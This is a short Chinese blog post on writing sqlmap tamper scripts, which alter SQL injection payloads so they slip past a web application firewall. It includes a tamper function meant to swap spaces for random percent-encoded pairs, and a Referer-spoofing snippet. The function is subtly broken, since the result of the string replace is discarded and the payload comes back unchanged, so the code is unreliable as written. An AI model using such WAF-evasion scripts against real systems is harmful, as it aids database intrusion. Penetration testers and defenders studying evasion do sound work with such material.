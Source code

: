 ```yaml
---
title: "SQLMap Tamper 编写"
date: 2018-05-12T00:00:00+08:00
draft: false
tags: ['sqli','python']
categories: ['编程']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


sqlmap 是一个开源的渗透测试工具, 可以用来自动化的检测, 利用 SQL 注入漏洞, 获取数据库服务器的权限.

<!--more-->

在 sqlmap 的 tamper 中, 需要实现的地方有 3 处.

```
__priority__ - 脚本优先级
dependencies - 适用/不适用的范围
tamper - 用于 bypass waf
```

dependencies 一般不用设置, __priority__ 默认为 PRIORITY.LOW 即可

# bypass

拿之前遇到的 waf 举个例子

```
import random
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def tamper(payload, **kwargs):
    fuzz = ('0','1','2','3','4','5','6','7','8','9')
    for _ in range(len(payload.split(' '))-1):
        string = r'%' + random.choice(fuzz) + random.choice(fuzz)
        payload.replace(' ',string,1)
    return payload
```

# Other

kwargs 更改 header

```
headers = kwargs.get('headers', {})
headers['Referer'] = 'http://www.baidu.com/'
```